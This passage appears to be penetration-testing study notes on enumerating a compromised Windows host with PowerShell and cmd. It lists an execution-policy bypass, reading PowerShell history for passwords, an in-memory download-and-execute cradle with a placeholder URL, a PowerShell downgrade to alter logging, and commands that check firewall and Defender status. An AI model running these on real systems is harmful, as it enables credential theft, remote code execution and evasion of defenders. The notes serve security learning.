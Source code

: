 We can also use the command `systeminfo` to get a overview of it.

### PowerShell

The Powershell can be a helpful tool also:

| **Cmd-let**   | **Description**    |
|--------------- | --------------- |
| `Get-Module` | Lists available modules loaded for use. |
| `Get-ExecutionPolicy -List` |	Will print the execution policy settings for each scope on a host. |
| `Set-ExecutionPolicy Bypass -Scope Process` |	This will change the policy for our current process using the -Scope parameter. Doing so will revert the policy once we vacate the process or terminate it. This is ideal because we won't be making a permanent change to the victim host. |
| `Get-Content C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt` |	With this string, we can get the specified user's PowerShell history. This can be quite helpful as the command history may contain passwords or point us towards configuration files or scripts that contain passwords. |
| `Get-ChildItem Env: | ft Key,Value	Return environment values such as key paths, users, computer information, etc.
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>"` |	This is a quick and easy way to download a file from the web using PowerShell and call it from memory. |

### Downgrading PowerShell

Many defenders are unaware that several versions of PowerShell often exist on a host.  Below is an example of downgrading Powershell:
```console
PS C:\zeropio> Get-host
PS C:\zeropio> powershell.exe -version 2
PS C:\zeropio> Get-host
```

This can change the log output. Be aware that the action of issuing the command `powershell.exe -version 2` within the PowerShell session will be logged.

### Checking Defenses 

With the commands `netsh` and `sc` we can check the defenses of the host. For example, checking the firewall:
```console
PS C:\zeropio> netsh advfirewall show allprofiles
```

Windows Defender from the CMD:
```console
C:\zeropio> sc query windefend
```

Status and configuration of the Windows Defender:
```console
PS C:\zeropio> Get-MpComputerStatus
```

### Am I Alone? 

Check other logged accounts:
```console
PS C:\zeropio> qwinsta
```
